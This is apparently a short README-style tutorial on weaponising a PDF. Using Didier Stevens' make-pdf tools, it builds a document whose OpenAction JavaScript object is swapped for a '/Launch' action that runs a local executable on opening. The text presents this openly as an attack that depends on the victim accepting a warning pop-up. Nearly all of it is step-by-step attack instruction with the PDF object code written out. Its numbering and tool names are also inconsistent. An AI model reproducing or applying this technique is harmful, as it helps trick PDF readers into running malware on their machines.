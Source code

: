 # PDF as a means of executing a previously injected Malicious File
How to execute this attack:
 1) Use Didier Stevens PDF tools for the beginning of this process, those steps will be listed below.
 
     i) Download Didier Stevens PDF tools as linked here https://blog.didierstevens.com/programs/pdf-tools/, more specifically the make-pdf tool.
     
     ii) You have two options, the first being to use Didier Stevens make-pdf-embedded.py which is a different route that I went and swill require some exploration, or you can use make-pdf-javascript.py.
 3) We are only using make-pdf-javascript.py as a way to make the pdf itself, we will soon open the PDF document in a code editor and make some slight changes, to use this program you have to utilize the python 2 interpreter.
     
     i) enter this command into the CLI: py -2 make-pdf-embedded.py (outputname).pdf
 
 4) Open the pdf file that was created in the above step and open the notepad to display what is inside.

5) In the this step we will find where the javascript object is and replace it with something else, firstly refer to the OpenAction object at the top. This object is labeled as object 7 as such "/OpenAction 7 0 R", this will lead you in the direction of what is being acted upon as soon as something is opened, 
 ><<
  /Type /Action
   /S /JavaScript
   /JS (app.alert({cMsg: 'Hello from PDF JavaScript', cTitle: 'Testing PDF JavaScript', nIcon: 3});)>>
 6) Here we will replace with another type of action that can be executed by a PDF which is:
 ><<
  /Type /Action
  /S /Launch
  /Win << /F (c:\\(filepath to the executable).exe >> >>
 7) After replacing the two portions of the code, you should have a pdf that is capable of executing an executable on most pdf readers, you will have to hope that the user does not read the pop up and just willingly accepts.


Relevant Material:
1) https://github.com/filipi86/MalwareAnalysis-in-PDF
6) https://blog.didierstevens.com/programs/pdf-tools/
7) https://www.blackhat.com/presentations/bh-europe-07/Sotirov/Presentation/bh-eu-07-sotirov-apr19.pdf
